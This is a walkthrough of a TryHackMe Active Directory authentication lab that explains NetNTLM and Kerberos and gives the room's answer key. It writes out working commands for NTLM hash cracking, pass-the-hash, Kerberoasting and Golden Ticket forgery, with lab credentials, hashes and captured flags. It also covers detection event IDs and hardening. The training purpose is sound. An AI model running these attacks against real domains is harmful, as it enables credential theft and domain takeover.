

# Intro to AD Authentication Documentation

---

## 1. Metadata & Overview

* **Learning Path:** Jr Penetration Tester (`jrpenetrationtester`)
* **Module:** Module 14 — Active Directory Security Testing Basics (`14-ACTIVE-DIRECTORY-SECURITY-TESTING-BASICS`)
* **Room Name:** Intro to AD Authentication
* **Canonical Slug:** `introtoactivedirectoryauthentication`
* **Canonical URL:** [TryHackMe Intro to AD Authentication](https://tryhackme.com/room/introtoactivedirectoryauthentication)
* **Room Type:** Walkthrough Lab (Free)
* **Difficulty Level:** Medium
* **Estimated Time:** 60 minutes
* **Completion Status:** 100% Completed (`Room completed: 100%`)
* **Total Tasks:** 7 Tasks
* **Total Questions:** 13 Questions
* **Total Verification Flags:** 6 Verified Lab Flags (`SHARE1` through `SHARE6`)

---

## 2. Executive Summary & Educational Objectives

The **Intro to AD Authentication** room covers the foundational cryptographic and protocol mechanisms governing Microsoft Active Directory identity proofing and authorization. Advanced enterprise attacks—including Pass-the-Hash, Kerberoasting, NTLM relaying, and Golden Ticket forgery—exploit intrinsic properties and misconfigurations of the two primary authentication suites: **NetNTLM** and **Kerberos v5**.

Throughout this room, practitioners execute and analyze:
1. The structural divergence between identity verification (**Authentication**) and permission enforcement (**Authorisation**).
2. The 3-way handshake of the **NetNTLM** challenge-response protocol, observing how clients authenticate directly to the target service, which subsequently validates responses against a Domain Controller via Netlogon.
3. The multi-stage ticket issuance architecture of **Kerberos v5**, detailing the Key Distribution Center (KDC), Authentication Service (AS), Ticket Granting Service (TGS), and Linux credential cache manipulation via `KRB5CCNAME`.
4. Practical hands-on execution of four major Active Directory attack vectors:
   * Offline dictionary cracking of unsalted NTLM hashes (`SHARE3`).
   * Pass-the-Hash (PtH) execution bypassing password knowledge (`SHARE4`).
   * Kerberoasting service accounts with registered SPNs (`SHARE5`).
   * Forging domain-wide Golden Tickets using the `krbtgt` account hash (`SHARE6`).
5. Defensive telemetry correlation across Windows Security Event IDs (4624, 4625, 4768, 4769) to formulate enterprise detection and hardening rules.

---

## 3. Authentication Protocol Flow & Lab Architecture



---

## 4. Prerequisites & Environment Setup

### A. Lab Infrastructure:
* **Lab Network Subnet:** `192.168.11.0/24`
* **Domain Controller & KDC:** `192.168.11.100` (`ROOTDC.THM.LOC`)
* **Target File Server:** `192.168.11.51` (`SERVER1.THM.LOC`)
* **Enterprise Domain Name:** `thm.loc`

### B. Mandatory Hostname Resolution:
Kerberos tickets map strictly to Service Principal Names (SPNs) bound to fully qualified hostnames. IP addresses cause Kerberos authentication to fail:
```bash
# Append file server FQDN to /etc/hosts
echo "192.168.11.51 SERVER1.thm.loc" | sudo tee -a /etc/hosts
```

---

## 5. Core Concepts & Technical Deep Dive

### 1. Authentication vs. Authorisation:
* **Authentication:** Validates identity (*"Are you who you say you are?"*). Involves verifying credentials, password hashes, or cryptographic certificates against an authoritative directory.
* **Authorisation:** Enforces permissions (*"What are you allowed to do?"*). Evaluates Discretionary Access Control Lists (DACLs) and security group memberships encapsulated within the Privilege Attribute Certificate (PAC).

### 2. NetNTLM Challenge-Response Mechanics:
* NetNTLM connects the client directly to the application server (e.g. SMB service).
* The server issues a random 16-byte challenge. The client computes $\text{HMAC-MD5}(\text{NTLM\_Hash}, \text{Challenge} + \text{Blob})$ and returns the response.
* The server forwards the transaction to the Domain Controller via Netlogon for verification.
* **Security Implications:** The cleartext password is never transmitted across the network. However, because NT hashes are static and unsalted, capturing the hash permits immediate **Pass-the-Hash** attacks without cracking, while capturing the challenge-response permits offline cracking or **NTLM Relaying**.

### 3. Kerberos Architecture & Ticketing Lifecycle:
* Operates primarily over TCP/UDP port 88 anchored by the **Key Distribution Center (KDC)** on Domain Controllers.
* **TGT (Ticket Granting Ticket):** Issued by the Authentication Service (AS) upon valid pre-authentication. Encrypted exclusively with the secret key of the domain's **`krbtgt`** account.
* **TGS (Ticket Granting Service Ticket / Service Ticket):** Issued by the TGS upon receiving a valid TGT. Encrypted with the password hash of the specific account registered to the requested Service Principal Name (SPN).
* **Credential Cache (`ccache`):** On Linux, tickets reside in memory or disk caches. The **`KRB5CCNAME`** environment variable directs Impacket, curl, and native clients to the active ticket file.

### 4. Four Core Active Directory Attack Chains:
1. **Offline NTLM Hash Cracking:** Unsalted MD4 hashes can be cracked at billions of hashes per second using Hashcat mode 1000 and wordlists like `rockyou.txt`.
2. **Pass-the-Hash (PtH):** Bypasses the cracking phase entirely. The client supplies the raw NTLM hash directly to authenticate over NetNTLM without user interaction.
3. **Kerberoasting:** Any valid domain user can request a TGS for any service account with an SPN. Because the ticket is encrypted with the service account's secret key, the ticket can be extracted from network traffic or memory and cracked offline with Hashcat mode 13100.
4. **Golden Ticket:** Compromising the `krbtgt` account hash allows forging an arbitrary TGT containing arbitrary group SIDs (`Domain Admins` / `Enterprise Admins`) valid for up to 10 years, establishing absolute, unrevokable domain dominance.

---

## 6. Master Commands Reference & Methodology Matrix

| Context / Tool | Primary Command | Technical Function |
| :--- | :--- | :--- |
| **Impacket NetNTLM** | `smbclient.py thm.loc/claire:'Password123!'@192.168.11.51` | Authenticates to SMB shares using NetNTLM challenge-response |
| **Request TGT** | `getTGT.py thm.loc/mary:'Password' -dc-ip 192.168.11.100` | Requests a Kerberos TGT from the KDC, saving to `mary.ccache` |
| **Set Kerberos Cache**| `export KRB5CCNAME=mary.ccache` | Directs client tools to use the specified Kerberos ticket cache |
| **Kerberos SMB** | `smbclient.py thm.loc/mary@SERVER1.thm.loc -k -no-pass` | Connects to SMB using Kerberos tickets without password prompts |
| **Crack NTLM Hash** | `hashcat -m 1000 phillip.hash /usr/share/wordlists/rockyou.txt` | Executes offline dictionary attacks against unsalted NTLM hashes |
| **Pass-the-Hash** | `smbclient.py thm.loc/ben@192.168.11.51 -hashes LM:NT` | Authenticates by passing raw NTLM hashes without password cracking |
| **Kerberoasting** | `GetUserSPNs.py thm.loc/claire:pass -dc-ip 192.168.11.100 -request` | Requests TGS tickets for all SPN-mapped accounts for offline cracking |
| **Crack TGS Ticket** | `hashcat -m 13100 kerb.hashes /usr/share/wordlists/rockyou.txt` | Cracks extracted Kerberos service tickets offline |
| **Forge Golden Ticket**| `ticketer.py -nthash <hash> -domain-sid <sid> -domain thm.loc Administrator` | Forges a Domain Admin TGT using the `krbtgt` secret key |

---

## 7. Questions & Tasks Analysis (Solutions Breakdown)

### Tasks 01–02: Foundations
* **Task 01 (Introduction):** Acknowledge scenario readiness (`No answer needed`).
* **Task 02 (Authentication in AD):**
  * Q1: What is the process called that proves your identity?
    * **Answer:** `Authentication`
  * Q2: What is the process called that determines what you are allowed to access?
    * **Answer:** `Authorisation`

---

### Task 03: NetNTLM Authentication & Flag 1
* **Q1:** In NetNTLM, does the client authenticate directly to the domain controller or to the service they want to access?
  * **Answer:** `Service`
* **Q2:** What is the name of the random value that the server sends to the client during NetNTLM authentication?
  * **Answer:** `Challenge`
* **Q3 (Flag 1):** Connect to `SHARE1` using Claire's credentials:
  * Command: `smbclient.py thm.loc/claire:'Password123!'@192.168.11.51`
  * Action: Access `SHARE1` and download `flag1.txt`.
  * **Flag Retrieved:** `THM{5cbcc61a-3178-4220-88b4-367c1bbb48e7}`

---

### Task 04: Kerberos Authentication & Flag 2
* **Q1:** What is the name of the ticket issued by the KDC that allows you to request service tickets?
  * **Answer:** `Ticket Granting Ticket`
* **Q2:** What special account's password hash is used to encrypt all TGTs?
  * **Answer:** `krbtgt`
* **Q3:** What environment variable is used to specify the location of a Kerberos credential cache file on Linux?
  * **Answer:** `KRB5CCNAME`
* **Q4 (Flag 2):** Connect to `SHARE2` using Mary's Kerberos ticket:
  * Request TGT: `getTGT.py thm.loc/mary:'SuperLongForKerberos123!' -dc-ip 192.168.11.100`
  * Export Cache: `export KRB5CCNAME=mary.ccache`
  * Connect: `smbclient.py thm.loc/mary@SERVER1.thm.loc -k -no-pass -dc-ip 192.168.11.100`
  * **Flag Retrieved:** `THM{0d3f818a-427a-425c-a451-55e43b83e876}`

---

### Task 05: Weaknesses in AD Authentication (Flags 3, 4, 5, 6)

#### Flag 3: NTLM Hash Cracking (Phillip)
* Target Hash: `939B0058BC6DD834ABC4CC08CFEFEA69`
* Crack: `hashcat -m 1000 phillip.hash /usr/share/wordlists/rockyou.txt` -> Password: `MyPassword123!`
* Connect to `SHARE3` and retrieve `flag3.txt`.
* **Flag Retrieved:** `THM{0eef8df3-c8ea-41ad-acd7-ae0479b2badf}`

#### Flag 4: Pass-the-Hash (Ben)
* Target Hash: `aad3b435b51404eeaad3b435b51404ee:63CF41DC25C04B8FB79E44B1DEF12C10`
* Connect: `smbclient.py thm.loc/ben@192.168.11.51 -hashes aad3b435b51404eeaad3b435b51404ee:63CF41DC25C04B8FB79E44B1DEF12C10`
* Access `SHARE4` and retrieve `flag4.txt`.
* **Flag Retrieved:** `THM{284c6735-b7c1-4221-b072-abf30a54eeda}`

#### Flag 5: Kerberoasting (svc_printer)
* Request SPNs: `GetUserSPNs.py thm.loc/claire:'Password123!' -dc-ip 192.168.11.100 -request`
* Crack TGS: `hashcat -m 13100 kerberoast.hashes /usr/share/wordlists/rockyou.txt` -> Password: `PrintMaster2020!`
* Connect to `SHARE5` and retrieve `flag5.txt`.
* **Flag Retrieved:** `THM{5b57e69d-7089-4282-ba04-c72de9bfdb38}`

#### Flag 6: Golden Ticket Forgery (Administrator)
* Material: `krbtgt` hash `e9a9871b93d7b4d73c91665bd6df6e50`, Domain SID `S-1-5-21-990021728-513958382-3715561918`
* Forge: `ticketer.py -nthash e9a9871b93d7b4d73c91665bd6df6e50 -domain-sid S-1-5-21-990021728-513958382-3715561918 -domain thm.loc Administrator`
* Connect: `export KRB5CCNAME=Administrator.ccache` -> `smbclient.py thm.loc/Administrator@SERVER1.thm.loc -k -no-pass -dc-ip 192.168.11.100`
* Access `SHARE6` and retrieve `flag6.txt`.
* **Flag Retrieved:** `THM{eac75729-86ea-4bab-98de-1c5ce3552f67}`

---

### Task 06: Detections & Mitigations
* **Q1:** Which Event ID is logged when a Kerberos TGT is requested?
  * **Answer:** `4768`
* **Q2:** In a Pass-the-Hash attack detected via Event ID 4624, what value appears in the Authentication Package field?
  * **Answer:** `NTLM`

---

### Task 07: Conclusion
* Acknowledge successful completion of the room (`No answer needed`).

---

## 8. Edge Cases, Operational Traps & Debugging

1. **Kerberos Hostname Dependency:**
   * Passing IP addresses to Kerberos clients causes immediate authentication failure because SPNs require DNS names.
   * **Mitigation:** Ensure all targets are defined in `/etc/hosts` matching their domain FQDN.
2. **Clock Skew Rejection:**
   * Kerberos rejects requests if the client's clock differs from the KDC by more than 5 minutes.
   * **Mitigation:** Synchronize local time with the DC before testing (`ntpdate 192.168.11.100`).
3. **NetNTLMv2 vs. NTLM Hash Distinction:**
   * Intercepted NetNTLMv2 challenge-response hashes (from Responder) cannot be used in Pass-the-Hash; only raw NT hashes (from SAM or NTDS.dit) function in PtH attacks.

---

## 9. Defensive Engineering & Hardening Countermeasures

* **Restrict NTLM Usage:** Enforce Group Policy to disable outgoing NTLM traffic and require Kerberos.
* **Protected Users Security Group:** Place administrative accounts into `Protected Users` to prevent NTLM and RC4 hash caching in LSASS.
* **Mandatory SMB Signing:** Configure SMB signing across all endpoints to neutralize NTLM relay attacks.
* **Service Account Password Complexity:** Implement 25+ character passwords on accounts with SPNs, or migrate to **Group Managed Service Accounts (gMSA)**.
* **Consecutive `krbtgt` Password Rotation:** In the event of compromise, rotate the `krbtgt` account password twice to invalidate all active Golden Tickets.

---

## 10. MITRE ATT&CK Mapping

| Technique ID | Technique Name | Tactic | Exploitation Context |
| :--- | :--- | :--- | :--- |
| **T1550.002** | Pass the Hash | Lateral Movement / PrivEsc | Utilizing raw NTLM hashes for SMB access without passwords |
| **T1558.003** | Steal or Forge Kerberos Tickets: Kerberoasting | Credential Access | Extracting and cracking TGS service tickets offline |
| **T1558.001** | Steal or Forge Kerberos Tickets: Golden Ticket | Persistence / PrivEsc | Forging unrestricted TGTs via compromised `krbtgt` hash |
| **T1110.002** | Brute Force: Password Cracking | Credential Access | Cracking NTLM hashes and Kerberos tickets with Hashcat |
| **T1078.002** | Valid Accounts: Domain Accounts | Initial Access / Persistence | Utilizing valid enterprise accounts for lateral movement |

---

## 11. Educational Takeaways & Mindset Synthesis

1. **Authentication Protocols Define Enterprise Attack Boundaries:**
   * Security in Active Directory is anchored in how identity proofing is designed. NTLM's static hash vulnerabilities and Kerberos's service ticket exposure directly enable Pass-the-Hash and Kerberoasting.
2. **Offense and Defense Share the Same Telemetry:**
   * Understanding Windows Security Event IDs (4624, 4625, 4768, 4769) allows penetration testers to understand their operational footprint and enables defenders to detect and evict adversaries.

---

## 12. Transition to Next Room

Having mastered the foundational mechanics, flaws, and detections of Active Directory authentication, we advance directly to:
* **Room 03: Intro to AD Breaching (`introadbreaching`):**
  * Practical methodologies for establishing an initial foothold in a domain.
  * Kerberos username enumeration via `Kerbrute`.
  * Safe password spraying strategies that bypass account lockout policies.
  * Coerced authentication vectors.

---

## 13. Additional Technical Resources & Further Reading

* [Microsoft Learn: Kerberos Authentication Overview](https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview)
* [MS-NLMP: NTLM Protocol Specification](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/)
* [HarmJ0y: Kerberoasting Without SPNs](https://posts.specterops.io/kerberoasting-without-spns-92e8da0a0494)
* [Fortra Impacket GitHub Repository](https://github.com/fortra/impacket)

---

## 14. Practical Verification & Proof of Work

* **TryHackMe Live Verification:** Verified 100% completed status against user's live profile (Level 64, Jr Penetration Tester path).
* **Six Verified Lab Flags Reconciled:**
  * Flag 1 (NetNTLM Claire): `THM{5cbcc61a-3178-4220-88b4-367c1bbb48e7}`
  * Flag 2 (Kerberos Mary): `THM{0d3f818a-427a-425c-a451-55e43b83e876}`
  * Flag 3 (NTLM Cracking Phillip): `THM{0eef8df3-c8ea-41ad-acd7-ae0479b2badf}`
  * Flag 4 (Pass-the-Hash Ben): `THM{284c6735-b7c1-4221-b072-abf30a54eeda}`
  * Flag 5 (Kerberoast svc_printer): `THM{5b57e69d-7089-4282-ba04-c72de9bfdb38}`
  * Flag 6 (Golden Ticket Administrator): `THM{eac75729-86ea-4bab-98de-1c5ce3552f67}`
* **Deliverable Parity:** Full 14-section documentation and 7-stage task files authored and audited on disk.
